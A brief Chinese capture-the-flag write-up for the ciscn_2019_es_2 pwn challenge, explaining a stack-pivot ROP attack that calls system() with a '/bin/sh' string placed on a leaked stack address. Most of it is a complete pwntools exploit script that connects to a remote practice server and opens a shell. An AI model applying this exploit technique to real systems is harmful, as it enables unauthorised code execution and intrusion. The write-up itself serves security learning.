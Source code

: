 存在system函数

由于溢出只有8个字节，而我们能够获得栈上地址，故考虑进行**栈迁移**，在栈上构造ROP链

题目中只给了`system()`函数，没给`/bin/sh`字符串，不过由于栈上地址可知，故我们可以将之读取到栈上

gdb调试可知我们的输入与所泄露地址间距为0xe18 - 0xde0 = 0x38

![image.png](img/6b2c6618977657662334d8f4b68df765.png)

故构造exp如下：

```
from pwn import *
context.arch = 'i386'
p = remote("node3.buuoj.cn", 25040) 
e = ELF("./ciscn_2019_es_2")
offset = 0x28
leave_ret = 0x80485FD
payload = b'A' * offset
p.recv()
p.send(payload)
p.recvuntil(payload)
stack_leak = u32(p.recv(4))
log.info(hex(stack_leak))
payload2 = p32(e.sym['system']) + p32(0xdeadbeef) + p32(stack_leak-0x38 + 12) + b'/bin/sh\x00'
payload2 += b'A' * (offset - len(payload2)) + p32(stack_leak - 0x38 - 4) + p32(leave_ret)
p.sendline(payload2)
p.interactive() 
```

运行即得flag
